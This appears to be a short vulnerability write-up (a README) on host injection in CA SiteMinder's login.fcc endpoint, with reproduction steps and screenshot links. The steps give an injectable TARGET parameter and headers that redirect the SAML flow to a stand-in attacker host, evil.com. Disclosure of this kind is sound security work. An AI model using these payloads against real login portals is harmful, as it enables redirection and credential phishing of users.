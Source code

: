 # Host-Manipulation-Siteminder

#Overview of the Vulnerability
This vulnerability is capable of injecting contents into the login form in a hidden way (<input type='hidden'), it also adds two reference fields capable of redirecting when performing a successful login.

                                                                                                
# Step to reproduce:
1) On url, change a fields /siteminderagent/forms/login.fcc?TYPE=&REALMOID=&GUID=&SMAUTHREASON=0&METHOD=GET&SMAGENTNAME=&TARGET=-SM- {INJECT DOMAIN}
2) After adding a domain to your request, a new form of hidden type will be created automatically (<input type='hidden') and the following parameters will also be added to the request header:

"Referer: https:// {URL INJECT HERE} /affwebservices/secure/secureredirect/?SPID=https://evil.com/c2c/saml/metadata&SMPORTALURL=v%2FJaQcXcjv8i0itl6jA1r2S8TfHqIfZQoDq7oEUdb5QFATBYY04pvqJppw%2Bhp0fYSZ JogkCgh4WtuU4h7K%2BqsRXj1fSiLP1hcEFrVyXJ68piomV2582unvZkwlhmdLov&SAMLTRANSACTIONID=925291bf-e9f8e8a5-e00625ea-bb9766fe-40f1431d-dd"
"Location: https:// {URL INJECT HERE} /affwebservices/secure/secureredirect/?SPID=https://evil.com/c2c/saml/metadata&SMPORTALURL=v%2FJaQcXcjv8i0itl6jA1r2S8TfHqIfZQoDq7oEUdb5QFATBYY04pvqJppw%2Bhp0fYSZJo gkCgh4WtuU4h7K%2BqsRXj1fSiLP1hcEFrVyXJ68piomV2582unvZkwlhmdLov&SAMLTRANSACTIONID=769a0761-7f79e2f5-35c4ace4-b9cccadc-f6d42b71-f"

First Redirect (Secure Redirect)
![alt txt] (https://prnt.sc/NVJr3C5AvEE2)

Second Redirect (After Inject)
![alt text](https://prnt.sc/9iXHGcXpVFI2)
